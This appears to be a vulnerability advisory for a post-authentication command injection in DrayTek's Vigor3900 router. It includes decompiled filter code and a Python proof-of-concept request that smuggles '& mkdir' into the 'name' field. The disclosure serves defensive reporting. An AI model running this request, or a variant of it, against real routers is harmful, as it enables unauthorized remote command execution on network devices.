


# There is a post-authorization command injection vulnerability in vigor3900

## 1、Basic Information

- Supplier:`DrayTek`
- Product:`vigor3900`
- Firmware version:`1.5.1.6`
- Type:`Command Injection`

## 2、Vulnerability Description

There is a post-authorization command injection vulnerability in the binary file of the `1.5.1.6` firmware version of the `vigor3900` router. The vulnerability is located in the `/www/cgi-bin/mainfunction.cgi` file. Because the file does not properly consider the filtering of the values of related fields when processing requests, an attacker can construct a malicious HTTP message and execute arbitrary code remotely.



As can be seen from the figure above, we can control the value of the `name` field, thereby controlling the execution of the `run_command` function. After obtaining the value of the `name` field, it will be assigned to `value`, and then `value` will be filtered through the `filter_string` function. The code is as follows. It can be found that the function does not filter the `space` and `&` characters, which will lead to command injection.

```c
unsigned __int8 *__fastcall filter_string(unsigned __int8 *result)
{
  unsigned __int8 *i; // r2
  int v2; // r3
  bool v3; // zf
  _BOOL4 v4; // r3

  for ( i = result; i; ++i )
  {
    v2 = *i;
    v3 = v2 == ';';
    if ( v2 != ';' )
      v3 = v2 == '%';
    if ( v3
      || v2 == '`'
      || v2 == '|'
      || v2 == '>'
      || v2 == '\''
      || v2 == '"'
      || v2 == '$'
      || v2 == '\t'
      || v2 == '\n'
      || v2 == '\r' )
    {
      *i = '+';
    }
    else
    {
      v4 = v2 == '&';
      if ( i == (unsigned __int8 *)-1 )
        v4 = 0;
      if ( v4 && i[1] == '&' )
        qmemcpy(i, "++", 2);
      if ( !*i )
        return result;
    }
  }
  return result;
} 
```

## 3、Vulnerability Verification

The constructed POC is as follows, where the relevant `Cookie` value is required.

```python
def send_post_request(ip_address, session_cookie, name_value):
    url = f"http://{ip_address}/cgi-bin/mainfunction.cgi"
    
    headers = {
        "Host": ip_address,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "en-US,en;q=0.9",
        "Cookie": session_cookie,
        "Connection": "close"
    }

    data = {
        "action": "get_cert_content",
        "type": "trustca",
        "name": name_value
    }

    response = requests.post(url, headers=headers, data=data)
    return response.text

ip_address = "10.10.10.2"
session_cookie = "SESSION_ID_VIGOR=7:F657C2D5AE041116E7003E8F7C8B7EFA"
name_value = "a & mkdir jfkk &"

response_text = send_post_request(ip_address, session_cookie, name_value)
print(response_text)
```

As can be seen below, we successfully created a folder named `jfkk`



## 4、Reporter

- #### ✨jfkk (jfkk2331997024@gmail.com)


